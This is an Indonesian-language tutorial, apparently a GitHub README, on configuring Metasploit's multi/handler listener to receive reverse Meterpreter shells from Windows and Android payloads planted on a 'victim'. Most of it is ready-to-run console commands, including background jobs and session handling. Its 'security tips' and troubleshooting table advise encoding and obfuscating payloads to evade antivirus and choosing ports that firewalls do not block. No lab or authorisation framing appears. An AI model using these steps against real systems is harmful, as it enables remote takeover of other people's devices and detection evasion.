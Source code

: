 # Membuat Listener

## A. Apa itu Listener

`Listener` adalah komponen di Metasploit yang berfungsi untuk menerima koneksi balik (reverse connection) dari payload yang sudah ditanamkan ke target. Di Metasploit terdapat modul listener yaitu:

```
exploit/multi/handler
```

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

1. Jalankan Metasploit Framework:

   ```
   msfconsole
   ```

2. Pilih Modul multi/handler:

   ```
   use exploit/multi/handler
   ```

3. Tentukan Payload yang Sesuai

   Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

   ```
   set PAYLOAD windows/meterpreter/reverse_tcp

   ```

4. Atur IP dan Port Listener:

   ```
   set LHOST 192.168.1.100
   set LPORT 4444
   ```

   Keterangan:
   - **LHOST**: IP Attacker (listener)
   - **LPORT**: Port tempat menerima koneksi

6. Jalankan Listener:

   ```
   run
   ```

   Atau bisa juga:

   ```
   exploit
   ```

## C. Contoh Lengkap: Listener untuk Payload Windows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android:

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j -z
```

Keterangan:
- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

Melihat job listener aktif:

```
jobs
```

Menghentikan job tertentu:

```
jobs -k <ID>
```

Menghentikan semua job:

```
jobs -K
```


## F. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i <ID>
```

## G. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (`public IP/VPN/local` sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## H. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | `IP/Port` salah | Pastikan `LHOST/LPORT` sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan `-e` encoder di `msfvenom` |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |
